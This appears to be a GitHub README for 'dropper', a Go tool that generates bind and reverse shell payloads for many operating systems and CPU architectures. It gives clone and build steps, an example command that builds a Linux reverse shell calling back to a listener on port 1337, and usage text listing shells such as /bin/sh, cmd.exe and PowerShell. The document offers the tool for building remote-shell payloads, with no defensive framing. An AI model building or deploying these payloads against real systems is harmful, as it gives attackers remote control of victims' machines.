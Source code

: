 Dropper

In order to run dropper, you must already have your GOPATH configured properly.
For more information on setting up your GOPATH and Golang environment, please visit the golang wiki on GitHub: 

https://github.com/golang/go/wiki/SettingGOPATH

If everything is all set, navigate to your GOPATH on your system run clone the repo using `git` or `go`.

<code>git clone https://github.com/im4x5yn74x/dropper.git</code>

<code>go get github.com/im4x5yn74x/dropper</code>

Once cloned, change to the dropper folder and give it a test run.

<code>cd dropper/;</code><br>
<code>go run dropper.go</code>

+...|Choose an OS|...+

&#x2d; windows
&#x2d; linux
&#x2d; freebsd
&#x2d; nacl
&#x2d; netbsd
&#x2d; openbsd
&#x2d; plan9
&#x2d; solaris
&#x2d; dragonfly
&#x2d; darwin
&#x2d; android

&#x3e;_: 

Feel free to compile it and use provide arguments to quickly build your payloads. 

<code>go build dropper.go</code><br>
<code>./dropper -a 386 -o potato -p linux -l 127.0.0.1:1337 -s /bin/sh -t reverse</code><br>
<code>./dropper -h</code>
<pre>
Usage of ./dropper:
	-a string
		Architecture: 386, amd64, amd64p32, arm, arm64, ppc64, ppc64le, mips, mipsle, mips64, mips64le, s390x, sparc64
	-l string
		Listening host: <listening ip:port>
	-o string
		Output filename: <anything goes>
	-p string
		Operating System: windows, linux, freebsd, nacl, netbsd, openbsd, plan9, solaris, dragonfly, darwin, android
	-s string
		Shell type: C:\Windows\System32\cmd.exe, C:\Windows\SYSWOW64\WindowsPowerShell\v1.0\powershell.exe, /bin/sh, /system/bin/sh
	-t string
		Payload type: bind/reverse
</pre>
 
